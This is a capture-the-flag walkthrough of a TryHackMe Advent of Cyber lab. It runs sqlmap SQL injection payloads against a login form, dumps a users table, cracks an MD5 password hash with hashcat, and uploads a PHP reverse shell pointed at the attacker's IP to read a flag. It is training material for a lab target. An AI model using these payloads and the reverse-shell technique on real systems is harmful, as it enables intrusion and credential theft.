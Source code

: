 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 23
## Reconnaissance
* An `nmap` scan:
```bash
$ sudo nmap -sV -p- -vv 10.10.224.13
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. The HTTP request used for loging in that Burpsuite captured (saved as `request.txt`):
```http
POST /register.php HTTP/1.1
Host: 10.10.224.13
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.224.13
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.224.13/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=4ff77qqc7jmoamdon1h2touoih
Connection: close

log_email=test%40test.org&log_password=test&login_button=Login
```
## Which field is SQL injectable? Use the input name used in the HTML code.
* Use `sqlmap` to find the name of the database and the SQL-injectable field:
```bash
$ sqlmap -r $(pwd)/request.txt --current-db
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
current database: 'social'
```
**Answer**: `log_email`
## What is Santa Claus' email address?
1. Use `sqlmap` to get the table names under the `social` database:
```bash
$ sqlmap -r $(pwd)/request.txt -D social --tables	
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
---
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
2. 
```bash
$ sqlmap -r $(pwd)/request.txt -D social -T users -C username,email,password --dump
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 2841 FROM (SELECT(SLEEP(5)))OIiK) AND 'FpXc'='FpXc&log_password=test&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=test@test.org' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a717171,0x6c70647376585242715742557051726f556f6d6d45794b4b476547665575685347497153756d476f,0x7170716b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=test&login_button=Login
---
Database: social
Table: users
[9 entries]
+-----------------------+------------------------+----------------------------------+
| username              | email                  | password                         |
+-----------------------+------------------------+----------------------------------+
| santa_claus           | bigman@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 |
| mommy_mistletoe       | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b |
| arnold_schwarzenegger | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 |
| johnfortnite_kennedy  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 |
| john_richardson       | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 |
| naughty_elf           | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f |
| felix_navidad         | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e |
| jessica_claus         | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 |
| myron_larabee         | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df |
+-----------------------+------------------------+----------------------------------+
```

**Answer**: `bigman@shefesh.com`
## What is Santa Claus' plaintext password?
```bash
$ hashcat -a 0 -m 0 'f1267830a78c0b59acc06b05694b2e28' rockyou.txt
f1267830a78c0b59acc06b05694b2e28:saltnpepper
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: f1267830a78c0b59acc06b05694b2e28
Time.Started.....: Wed Jun 30 16:42:37 2021 (0 secs)
Time.Estimated...: Wed Jun 30 16:42:37 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:   947.9 kH/s (11.70ms) @ Accel:64 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 172032/14344384 (1.20%)
Rejected.........: 0/172032 (0.00%)
Restore.Point....: 147456/14344384 (1.03%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#2....: mckenzy -> florida69
```
**Answer**: `saltnpepper`
## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
1. Login as Santa with the email `bigman@shefesh.com` and password saltnpepper `saltnpepper`.
2. Access the chat messages between Santa Mrs Mistletoe:
![chat messages between Santa Mrs Mistletoe](chat.jpg)

**Answer**: `Waterloo`
## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in `/home/user/`
1. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
2. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar):
```php
$ip = '<OPENVPN_IP>';
$port = 443;
```
3. Rename the file to `php-reverse-shell.phtml`.
4. Run `nc -lvnp 1234` and upload `php-reverse-shell.phtml`:
```bash
$ nc -lvnp 1234
$ cd /home/user/
$ ls
flag.txt
$ cat flag.txt
MERRY CHRISTMAS FROM SHEFFIELD, UK

CREATED IN COLLABORATION WITH TRYHACKME.COM

THM{SHELLS_IN_MY_EGGNOG}
```

**Flag**: `THM{SHELLS_IN_MY_EGGNOG}`